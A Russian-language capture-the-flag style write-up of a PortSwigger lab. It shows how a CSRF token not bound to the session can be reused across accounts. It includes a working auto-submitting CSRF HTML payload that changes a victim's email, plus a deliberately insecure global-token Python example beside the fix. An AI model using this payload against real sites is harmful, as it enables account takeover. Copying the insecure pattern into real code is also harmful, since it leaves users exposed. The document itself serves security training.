

## Lab: CSRF where token is not tied to user session
**Платформа:** PortSwigger Web Security Academy  
**Категория:** CSRF  
**Сложность:** Practitioner  
**Дата:** 2025-07-09  

---

## TL;DR
CSRF-токены существуют, но не привязаны к конкретной сессии.
Токен от одного пользователя принимается в запросе другого —
достаточно получить валидный токен из своей сессии и использовать
его в атаке на жертву.

## Описание уязвимости
Правильная реализация CSRF-токена:
```
Токен генерируется для сессии пользователя A
Токен привязан к сессии A
Токен из сессии B → 403 для запросов сессии A
```

Уязвимая реализация в этой лабе:
```
Токен генерируется глобально — без привязки к сессии
Токен из сессии B → принимается для запросов сессии A
Любой валидный токен = обход защиты
```

---

## Разведка

### Шаг 1 — Изучаем форму смены email
Залогинилась как `wiener:peter`.
Открыла форму смены email, через DevTools (F12 → Network)
посмотрела POST-запрос:

```http
POST /my-account/change-email HTTP/1.1
Host: LAB-ID.web-security-academy.net
Cookie: session=SESSION_WIENER

email=test@test.com&csrf=TOKEN_WIENER
```

Записала значение токена: `TOKEN_WIENER`



### Шаг 2 — Проверяем привязку токена к сессии
Открыла приватное окно браузера, залогинилась как `carlos:montoya`.
Перешла на форму смены email — в DevTools увидела токен carlos:

```http
POST /my-account/change-email HTTP/1.1
Cookie: session=SESSION_CARLOS

email=test@test.com&csrf=TOKEN_CARLOS
```

Через DevTools вручную изменила значение поля `csrf`
в форме carlos на `TOKEN_WIENER` — токен от другого пользователя.

Отправила форму → сервер принял запрос и сменил email.

Токен не привязан к сессии — работает для любого пользователя.

---

## Эксплуатация

### Шаг 1 — Получаем свежий валидный токен
Залогинилась как `wiener:peter`.
Открыла форму смены email — через DevTools скопировала
актуальный CSRF-токен из поля формы:

```
Inspect → найти input[name="csrf"] → скопировать value
```

### Шаг 2 — Создаём exploit-страницу
Вставляем скопированный токен в форму:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2000a503b3ade6831b603f00e600d3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="hidden" name="csrf" value="FrocXMIrAmlVzWUw9e1TR9Q45WbwjZw6" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Токен валиден — сервер примет его независимо от того
чья сессия используется у жертвы.

### Шаг 3 — Размещение на exploit-сервере
Вставила HTML в поле Body exploit-сервера → Save.

### Шаг 4 — Проверка на себе
Нажала "View exploit" — email сменился. Эксплойт работает.

### Шаг 5 — Атака на жертву
Изменила email на новый → Save → "Deliver to victim".
Email жертвы изменён — лаба решена.

---

## Почему сработало

```
Ожидаемое поведение:
токен_A + сессия_A → 200 OK
токен_B + сессия_A → 403 Forbidden  ← должно быть так

Реальное поведение:
токен_A + сессия_A → 200 OK
токен_B + сессия_A → 200 OK  ← уязвимость

Сервер проверяет: "токен существует и валиден?"
Но не проверяет: "токен принадлежит этой сессии?"
```

---

## Отличие от предыдущих CSRF-лаб

| Лаба | Уязвимость |
|---|---|
| No defenses | Токена нет вообще |
| Token depends on method | Токен проверяется только для POST |
| Token depends on being present | Токен проверяется только если передан |
| **Token not tied to session** | Токен не привязан к сессии |

---

## Итог
Наличие CSRF-токена не гарантирует защиту если токен
глобальный. Атакующий просто берёт токен из своей сессии
и использует его в атаке на жертву.

---

## Защита

```python
# Плохо — глобальный пул токенов без привязки к сессии:
VALID_TOKENS = set()  # общий для всех пользователей

def generate_token():
    token = secrets.token_hex(32)
    VALID_TOKENS.add(token)  # просто добавляем в общий пул
    return token

def validate_token(token):
    return token in VALID_TOKENS  # проверяем только существование

# Хорошо — токен привязан к конкретной сессии:
def generate_token(session):
    token = secrets.token_hex(32)
    session['csrf_token'] = token  # привязываем к сессии
    return token

def validate_token(token, session):
    return token == session.get('csrf_token')  # сравниваем с сессией
```